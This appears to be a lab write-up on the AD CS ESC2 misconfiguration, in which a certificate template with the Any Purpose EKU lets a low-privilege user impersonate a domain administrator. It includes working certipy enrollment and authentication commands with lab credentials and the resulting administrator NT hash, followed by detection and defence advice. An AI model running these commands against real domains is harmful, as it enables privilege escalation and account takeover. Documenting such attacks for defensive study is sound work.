

# ESC2 — Any Purpose (or No) EKU

**Impact:** low-priv user → **Domain Admin**
**Lab status:** ✅ verified end-to-end

---

## Concept

ESC2 is ESC1's sibling. Instead of the danger living in the *subject*, it lives
in the **EKU**. The template grants either:

- the **Any Purpose** EKU (`2.5.29.37.0`), or
- **no EKU at all** (a "subordinate CA"-like cert).

A certificate with Any Purpose can be used for *anything* — including client
authentication — regardless of what it was nominally issued for. Combined with
enrollee-supplies-subject and low-priv enrollment, it is another direct path to
impersonation.



---

## Template configuration in the lab

| Attribute | Value |
|-----------|-------|
| Name | `ESC2` |
| EKU | Any Purpose `2.5.29.37.0` |
| `msPKI-Certificate-Name-Flag` | `ENROLLEE_SUPPLIES_SUBJECT (0x1)` |
| Enroll rights | `ADESCRTL.LAB\LabUsers` |

---

## Exploitation

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC2 \
  -upn administrator@adescrtl.lab \
  -sid 'S-1-5-21-3743172807-389476742-3060699965-500'

certipy auth -pfx administrator.pfx -dc-ip 10.0.0.5
```

```
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

Because the EKU is Any Purpose, the same certificate would equally serve for code
signing, server auth, or email — Any Purpose is a superset.

---

## ESC1 vs ESC2

| | ESC1 | ESC2 |
|--|------|------|
| Root cause | Subject source (`ESS`) | EKU is Any Purpose / none |
| Cert directly usable for auth | Yes (Client Auth EKU) | Yes (Any Purpose covers auth) |
| Also enables | — | Signing an ESC3 request, sub-CA-like abuse |

---

## Detection & defence

- Never issue templates with **Any Purpose** or **no EKU** to non-tier-0
  principals. Scope EKUs to exactly what is needed.
- The same SID-extension protection and approval controls from
  [ESC1](ESC1.md) apply.
- Audit templates: `certipy find` reports Any Purpose EKUs explicitly.
